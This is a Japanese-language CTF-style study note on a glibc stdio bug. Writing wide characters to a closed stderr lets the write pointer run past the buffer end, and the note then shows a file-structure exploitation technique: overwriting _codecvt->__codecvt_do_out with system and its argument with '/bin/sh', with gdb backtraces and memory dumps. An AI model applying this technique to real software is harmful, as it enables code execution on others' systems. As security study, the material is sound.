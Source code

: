 `gcc`してただ動作させるだけでSEGVになる。malloc_hookが書き変わっている。アドレス入れてないのに書き変わってんのずるくないですか？？？でっかく書いて、ちっさく書くとポインタ壊れるらしい。2.23で発見されたのに、2.29でも同じところで落ちるんだけどガバガバ大丈夫か？

- この人の説明は以下の感じ。
    1. `_IO_wfile_overflow`に最初のでかい書き込みが読まれて、`_IO_write_ptr`が`_IO_write_end`を超える。
    2. このバグは通常だと`_IO_do_flush`が呼ばれて無かったことになるんだけど、`stderr`が閉じられていると失敗するので、残ったままになる。
    3. 後に来る小さい方の入力は`_IO_wfile_xsputn`によばれて、ここで使えるバッファの計算が始まる。この時の式は`_IO_write_end - _IO_write_ptr`であり、負になるのでクソでかい値が返ってくる。

- 結果`_IO_wide_data`から下を無限に書き続けてmalloc_hookに到達する。これを問題に適用したいんだけど、pocの_IO_write_ptr別に超えてないんだけどなんだこれ。というかPOC最初の`fputws`を省略しても依然刺さる。closeしてるところに書いていくとやばいんだ多分。ただstderrの代わりにstdoutやinで試してもだめだった。謎。
- (4/24) 闇深すぎる。writeup書いてあることとコードで動いてる内容が違いすぎる。シェルたった後のバックトレースが以下
```
#0  0x00007f7f670a7687 in __GI___waitpid (pid=301, stat_loc=stat_loc@entry=0x7ffd4da93da8, options=options@entry=0) at ../sysdeps/unix/sysv/linux/waitpid.c:30
#1  0x00007f7f67012067 in do_system (line=<optimized out>) at ../sysdeps/posix/system.c:149
#2  0x00007f7f6704931b in __GI__IO_wdo_write (fp=0x7f7f673af760 <_IO_2_1_stdout_>, data=0x7f7f673ae9e8 <_IO_wide_data_1+296> L"\n", to_do=1113) at wfileops.c:75
#3  0x00007f7f67052202 in _IO_flush_all_lockp (do_lock=do_lock@entry=0) at genops.c:769
#4  0x00007f7f67052405 in _IO_cleanup () at genops.c:921
#5  0x00007f7f67006102 in __run_exit_handlers (status=0, listp=<optimized out>, run_list_atexit=run_list_atexit@entry=true, run_dtors=run_dtors@entry=true) at exit.c:130
#6  0x00007f7f6700613a in __GI_exit (status=<optimized out>) at exit.c:139
#7  0x00007f7f66fe4b9e in __libc_start_main (main=0x557721e339d0, argc=1, argv=0x7ffd4da94208, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>,
```
malloc_hookとかputwsとか全く関係なくて_IO_flush_lockpなんだよな。続きまして、_IO_wdo_write氏が以下。
```
_IO_wdo_write (_IO_FILE *fp, const wchar_t *data, _IO_size_t to_do)
{
  struct _IO_codecvt *cc = fp->_codecvt;

----------(cut)-----------

	  /* Now convert from the internal format into the external buffer.  */
	  result = (*cc->__codecvt_do_out) (cc, &fp->_wide_data->_IO_state,
					    data, data + to_do, &new_data,
					    write_ptr,
					    buf_end,
					    &write_ptr);
```
フラッシュするfpの__codecvt_do_outが関数ポインタで第一引数がポインタの先頭。前者にsystem後者に/bin/shを入れると発火する。ていうか入ってた。
```
(gdb) p _IO_wide_data_1  
$1 = {_IO_read_ptr = 0x7f7f673ae9e8 <_IO_wide_data_1+296> L"\n", _IO_read_end = 0x7f7f673ae9e8 <_IO_wide_data_1+296> L"\n", _IO_read_base = 0x7f7f673ae9e8 <_IO_wide_data_1+296> L"\n", 
  _IO_write_base = 0x7f7f673ae9e8 <_IO_wide_data_1+296> L"\n", _IO_write_ptr = 0x7f7f673afb4c <archive_stat+140> L"", 
  _IO_write_end = 0x424242420000000a <error: Cannot access memory at address 0x424242420000000a>, _IO_buf_base = 0x4242424242424242 <error: Cannot access memory at address 0x4242424242424242>, 
  _IO_buf_end = 0x4242424242424242 <error: Cannot access memory at address 0x4242424242424242>, _IO_save_base = 0x4242424242424242 <error: Cannot access memory at address 0x4242424242424242>, 
  _IO_backup_base = 0x4242424242424242 <error: Cannot access memory at address 0x4242424242424242>, _IO_save_end = 0x4242424242424242 <error: Cannot access memory at address 0x4242424242424242>, _IO_state = {
    __count = 1111638594, __value = {__wch = 1111638594, __wchb = "BBBB"}}, _IO_last_state = {__count = 1111638594, __value = {__wch = 1111638594, __wchb = "BBBB"}}, _codecvt = {
    __codecvt_destr = 0x3b68732f6e69622f, __codecvt_do_out = 0x7f7f67012440 <__libc_system>, __codecvt_do_unshift = 0x7f7f67012440 <__libc_system>, __codecvt_do_in = 0x2e726567657400, 
    __codecvt_do_encoding = 0x7f7f0000000a, __codecvt_do_always_noconv = 0x7f7f67049bc0 <do_always_noconv>, __codecvt_do_length = 0x7f7f67049eb0 <do_length>, 
    __codecvt_do_max_length = 0x7f7f67049bd0 <do_max_length>, __cd_in = {__cd = {__nsteps = 1, __steps = 0x5577221dd320, __data = 0x7f7f673ae978 <_IO_wide_data_1+184>}, __combined = {__cd = {__nsteps = 1, 
```